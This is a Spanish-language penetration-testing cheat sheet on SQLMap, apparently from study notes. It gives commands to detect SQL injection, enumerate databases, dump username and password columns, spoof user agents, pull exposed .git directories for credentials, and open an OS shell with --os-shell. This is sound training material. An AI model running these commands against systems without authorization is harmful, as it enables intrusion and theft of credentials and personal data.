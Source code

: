 # SQL-Map 

Tags: #Tool #Web #Enumeracion #BurpSuite #SQLI #Git #SQLMap 

**SQLMap** es una herramienta de pruebas de penetración de código abierto que se utiliza para detectar y explotar vulnerabilidades de inyección SQL en aplicaciones web. Esta herramienta se basa en un motor de inyección SQL altamente automatizado que puede detectar y explotar una amplia variedad de vulnerabilidades de inyección SQL en diferentes sistemas de gestión de bases de datos.

SQLMap se utiliza para probar la seguridad de aplicaciones web que utilizan bases de datos, identificando y aprovechando vulnerabilidades de inyección SQL. Para hacer esto, SQLMap realiza una exploración automatizada de la aplicación web, identifica las vulnerabilidades de inyección SQL y explota estas vulnerabilidades para extraer información de la base de datos. La información extraída puede incluir nombres de usuario, contraseñas y otra información confidencial que podría ser utilizada por un atacante malintencionado para comprometer la seguridad de la aplicación.

Al utilizar SQLMap, los profesionales de seguridad pueden identificar y corregir las vulnerabilidades de inyección SQL en sus aplicaciones web, lo que mejora significativamente la seguridad de estas aplicaciones. También pueden utilizar SQLMap para realizar pruebas de penetración en aplicaciones web de terceros y así evaluar su nivel de seguridad. En general, SQLMap es una herramienta valiosa para cualquier profesional de la seguridad que trabaja en pruebas de penetración de aplicaciones web y en la detección de vulnerabilidades de inyección SQL.

## SQLMap

```bash 
❯ sqlmap --update     # Actualizar la herramienta 
❯ sqlmap --version    # Miramos la version 
❯ sqlmap -h           # Miramos la ayuda 
❯ sqlmap -hh          # Todas las opciones de ayuda 
```

## Comandos básicos y método GET

```bash 
# La URL es donde se encuentra la inyeccion SQL

❯ sqlmap -u "http://IP/index.php?page=user-info.php&username=omar&password=omar&user-php-submit-button=View" --dbs 

	# u = Parametro URL
	# dbs = Extraer la base de datos existentes 

# Si nos pregunta 'Basic UNION Tests' podemos darle 'YES'
# Si nos pregunta 'Specific for other DBMSes' es recomendable 'NO' ya que no queremos probar con mas DBs 
# Si pregunta 'Include all tests for Postgre or MySQL' podemos darle 'YES'
# Si encuentra un parametro vulnerable y nos pregunta si queremos testear otros parametros podremos darle 'NO'
```

```bash 
❯ ls -la # En Linux podemos ver la carpeta oculta de SQLMap llamada '.sqlmap' la cual contiene el 'historial' y 'output'
```

```bash 
❯ sqlmap -u "http://IP/index.php?page=user-info.php&username=omar&password=omar&user-php-submit-button=View" --dbs --dbms MySQL -p username --purge 

	# u = Parametro URL
	# dbs = Extraer la base de datos existentes
	# p = Especificar el parametro que es explotable 
	# dbms = Especifica el gestor de DB a utilizar 
	# purge = Borrara la carpeta donde se almacena el dominio utilizado en el 'output'
```

```bash 
❯ sqlmap --wizard    # Provee varios menus de acompañamiento durante la ejecucion del ataque
```

```bash 
❯ sqlmap -u "http://IP/index.php?page=user-info.php&username=omar&password=omar&user-php-submit-button=View" --dbs --random-agent --purge    

	# random-agente = Genera un 'User Agent' diferente al momento de hacer el ataque

❯ sqlmap -u "http://IP/index.php?page=user-info.php&username=omar&password=omar&user-php-submit-button=View" --dbs --user-agent="Opera/9.20 (Windows NT 5.1; U; it)" --purge

	# user-agent = Agregas la cabecera del 'User-Agent' personalizada
```

```bash 
❯ sqlmap -u "http://IP/index.php?page=user-info.php&username=omar&password=omar&user-php-submit-button=View" --dbs --purge --mobile 

	# mobile = Escoger una cabecera 'User-Agent' de una app movil como: 'Apple, Google Nexus, Huawei, etc...'
```

## Tipos de inyecciones y método GET

```bash 
# Error Based 
# Enviar una consulta a la DB y nos mostrara los errores de la app

❯ sqlmap -u "http://IP/index.php?page=user-info.php&username=omar&password=omar&login-php-submit-button=Login" --dbs --dbms MySQL --random-agent --technique E -p password

	# technique = Especificamos la tecnica a utlizar 
		# B = Boolean Based Blind
		# E = Error Based
		# U = Union 
		# T = Time Based Blind 
	# p = Especificamos el parametro a utilizar
```

```bash 
# Union 
# Enviar una consulta a la DB uniendo los resultados de instrucciones SELECT en una sola peticion

❯ sqlmap -u "http://IP/index.php?page=user-info.php&username=omar&password=omar&login-php-submit-button=Login" --dbs --dbms MySQL --random-agent --technique U -p password

	# technique = Especificamos la tecnica a utlizar 
		# B = Boolean Based Blind
		# E = Error Based
		# U = Union 
		# T = Time Based Blind 
	# p = Especificamos el parametro a utilizar
```

## Tipos de inyecciones y método POST

```bash 
# Boolean Based Blind 
# Enviar una consulta a la DB para que nos devuelva un resultado 'True or False'

❯ sqlmap -u "http://IP/index.php?page=login.php" --dbs --dbms MySQL --random-agent --data="username=omar&password=omar&login-php-submit-button=Login" --method POST --technique B -p username

	# data = Agregamos el cuerpo de la peticion POST que contiene datos como: 'username, password', estos datos los podemos obtener desde 'Burpsuite'
	# method = Especificacion del metodo a utilizar
	# technique = Especificamos la tecnica a utlizar 
		# B = Boolean Based Blind
		# E = Error Based
		# U = Union 
		# T = Time Based Blind 
	# p = Especificamos el parametro a utilizar
```

```bash 
# Boolean Based Blind 
# Enviar una consulta a la DB, el tiempo de espera ayuda a determinar si el resultado es 'True or False'

❯ sqlmap -u "http://IP/index.php?page=login.php" --dbs --dbms MySQL --random-agent --data="username=omar&password=omar&login-php-submit-button=Login" --method POST --technique T -p username --time-sec 10

	# data = Agregamos el cuerpo de la peticion POST que contiene datos como: 'username, password', estos datos los podemos obtener desde 'Burpsuite'
	# method = Especificacion del metodo a utilizar
	# technique = Especificamos la tecnica a utlizar 
		# B = Boolean Based Blind
		# E = Error Based
		# U = Union 
		# T = Time Based Blind 
	# p = Especificamos el parametro a utilizar
	# time-sec = Le damos un tiempo maximo de espera a la apliacion ya que estaremos usando la tecnica 'Time Based Blind' y asi SQLMap no crea que la app dejo de funcionar 
```

## Primer Forma 

```bash 
❯ sqlmap -u 'http://site.com/index.php?id=1'    # Necesitamos pasarle la URL en donde se encuentra el index.php con el parametro 'id' existente. 
```

Cuando mires en una maquina victima el directorio **/.git/** quiere decir que se ha clonado un directorio Git y puede suponer un riesgo, porque si tiene la capacidad de 'directory listing'  nos podemos traer los archivos a la maquina de atacante. 

```bash 
❯ wget -r http://192.168.68.11           # Nos descargarnos de forma recursiva el contenido del dir .git
❯ git log                                # Pueder ves los 'commits' y su descripcion de cada cambio 
❯ git show <id>                          # puedes ver el contenido de los commit y en algunos casos obtener el registro de credenciales 
```

```bash 
❯ sqlmap -u 'http://<IP Victima>' --dbs --cookie "PHPSESSID=8w7uf5n4yn4q7896578yb" --dbms mysql --batch  # Debemos de colocar la url hasta el parametro que se usa para modificar e inyectar el SQL.
	# dbs = Haremos que nos enumere las bases de datos, pero antes debemos de estar autenticados 
	# cookie = "usuario=valor" Colocar la Cookie de Sesion de la web que se encuentra en (Inspector > Storage > Value) o en Burp
	# dbms = Para indicarle que la base de datos es Mysql y asi evitar algunas preguntas (Esto si conocemos que base de datos esta corriendo) 
	# batch = Indicar que no queremos que nos este preguntando y solo nos muestre los resultados obtenidos

❯ sqlmap -u 'http://<IP Victima>' --cookie "PHPSESSID=8w7uf5n4yn4q7896578yb" --dbms mysql --batch -D <DB-name> --tables
	# D = Colocar el nombre de la DB que hemos encontrado 
	# tables = Enumerar las tablas de la DB

❯ sqlmap -u 'http://<IP Victima>' --cookie "PHPSESSID=8w7uf5n4yn4q7896578yb" --dbms mysql --batch -D <DB-name> -T <Table-name> --columns
	# columns = Enumerar las columnas 
	# T = Nombre de la tabla 

❯ sqlmap -u 'http://<IP Victima>' --cookie "PHPSESSID=8w7uf5n4yn4q7896578yb" --dbms mysql --batch -D <DB-name> -T <Table-name> -C <username,password,email> --dump
	# C = Colocas las columnas que quieres dumpear
	# dump = Mostrar el contenido de las columnas username, password y email

❯ sqlmap -u 'http://<IP Victima>' --cookie "PHPSESSID=8w7uf5n4yn4q7896578yb" --dbms mysql --risk 3 --level 4   # Esto demora mas tiempo 
	# risk = Nivel de riesgo 
	# level = Nivel de profundidad

❯ sqlmap -u 'http://<IP Victima>' --cookie "PHPSESSID=8w7uf5n4yn4q7896578yb" --os-shell --batch     # Si el servidor interpreta PHP, tenemos permisos, podriamos ganar una consola interactiva 
```


## Segunda forma 

Podemos usar los archivos de BurpSuite para ingresarlos en la herramienta SQLMap y así nos diga que tipo de vulnerabilidades tiene, además de poder obtener datos a partir de ellas. Para este ejemplo usaremos **SQLI**.

```bash 
❯ sqlmap -r peticion.txt            # Obtenemos el archivo 'peticion.txt' copiando la intercepcion del Burpsuite 
```


```bash
❯ sqlmap -r example.req -p searchitem --batch

	# r = Archivo con el contenido del Proxy de BurpSuite .req
	# p = El campo donde queremos que pruebe 
	# batch = Para que no nos muestre las preguntas y las salte
```

```bash
❯ sqlmap -r example.req -p searchitem --batch --dbs

	# r = File con el contenido del Proxy de BurpSuite .req
	# p = El campo donde queremos que pruebe 
	# batch = Para que no nos muestre las preguntas y las salte
	# dbs = Me muestre todas las bases de datos existentes (Dumpear)
```

Una vez obtenidas las DBs podemos apuntar a las **tablas** de una base especifica

```bash
❯ sqlmap -r example.req -p searchitem --batch -D sqltraining --tables

	# r = File con el contenido del Proxy de BurpSuite .req
	# p = El campo donde queremos que pruebe 
	# batch = Para que no nos muestre las preguntas y las salte
	# D = Le colocamos el nombre de la DB existente 
	# tables = Queremos que nos muestre las tablas de la DB que elegimos 
```

Una vez obtenidas las tablas, ahora vamos a querer que nos enumere las **columnas**

```bash
❯ sqlmap -r example.req -p searchitem --batch -D sqltraining -T users --columns

	# r = File con el contenido del Proxy de BurpSuite .req
	# p = El campo donde queremos que pruebe 
	# batch = Para que no nos muestre las preguntas y las salte
	# D = Le colocamos el nombre de la DB existente 
	# T = Le colocamos el nombre de la tabla existente 
	# columns = Queremos que nos muestre las columnas de la DB que elegimos 
```

Una vez obtenidas las columnas podemos hacer que nos muestre **(Dumpear)** sus valores

```bash
❯ sqlmap -r example.req -p searchitem --batch -D sqltraining -T users -C username,password --dump

	# r = File con el contenido del Proxy de BurpSuite .req
	# p = El campo donde queremos que pruebe 
	# batch = Para que no nos muestre las preguntas y las salte
	# D = Le colocamos el nombre de la DB existente 
	# T = Le colocamos el nombre de la tabla existente 
	# C = Le colocamos el nombre de las columnas existente 
	# dump = Que nos muestre los valores que tienen esas columnas
```



